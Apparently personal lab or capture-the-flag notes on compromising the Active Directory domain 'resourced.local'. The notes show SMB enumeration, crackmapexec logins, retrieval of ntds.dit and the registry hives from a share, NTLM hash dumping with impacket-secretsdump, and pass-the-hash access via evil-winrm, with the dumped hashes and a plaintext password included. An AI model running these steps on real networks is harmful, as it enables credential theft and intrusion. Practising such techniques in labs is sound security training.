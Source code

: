 		- login successful
	- nmap --script smb-vuln* -p135,139,445 $IP
		- No found exploits
- Users
	- Administrator
	- Guest
	- krbtgt
	- M.Mason
	- K.Keen
	- L.Livingstone
	- J.Johnson
	- V.Ventz
		- sudo crackmapexec smb $IP -u V.Ventz -p 'HotelCalifornia194!'
			- Has access
			- `resourced.local\V.Ventz
	- S.Swanson
	- P.Parker
	- R.Robinson
	- D.Durant
	- G.Goldberg
- V.Ventz
	- sudo crackmapexec smb $IP -u V.Ventz -p 'HotelCalifornia194!' --shares
		- Read
			- IPC$
			- NETLOGON
			- Password Audit
				- `smbclient '\\192.168.201.175\Password Audit' -U 'V.Ventz'
					- Active Directory
						- ntds.dit
						- ntds.jfm
					- registry
						- SECURITY
						- SYSTEM
			- SYSVOL
	- sudo impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
		- administrator:12579b1666d4ac10f0f59f300776495f
			- crackstation - ItachiUchiha888
			- tried crackmap smb and winrm
				- login failed
		- krbtgt:3004b16f88664fbebfcb9ed272b0565b
		- M.Mason:3105e0f6af52aba8e11d19f27e487e45
		- K.Keen:204410cc5a7147cd52a04ddae6754b0c
		- L.Livingstone:19a3a7550ce8c505c2d46b5e39d6f808
			- sudo crackmapexec smb $IP -u L.Livingstone -H '19a3a7550ce8c505c2d46b5e39d6f808'
				- Successful
			- sudo crackmapexec winrm $IP -u L.Livingstone -H '19a3a7550ce8c505c2d46b5e39d6f808'
				- pwned
				- evil-winrm -i $IP -u L.Livingstone -H '19a3a7550ce8c505c2d46b5e39d6f808'
					- connected
		- J.Johnson:3e028552b946cc4f282b72879f63b726
		- S.Swanson:bd7c11a9021d2708eda561984f3c8939
		- P.Parker:980910b8fc2e4fe9d482123301dd19fe
		- R.Robinson:fea5a148c14cf51590456b2102b29fac
		- D.Durant:08aca8ed17a9eec9fac4acdcb4652c35
		- G.Goldberg:62e16d17c3015c47b4d513e65ca757a2
		- Saying password expired when using hash
	- sudo impacket-GetUserSPNs 'resourced.local/V.Ventz':'HotelCalifornia194!' -dc-ip $IP -request
		- no entries found
### PE
#### Windows
- `resourced\l.livingstone
	- whoami /all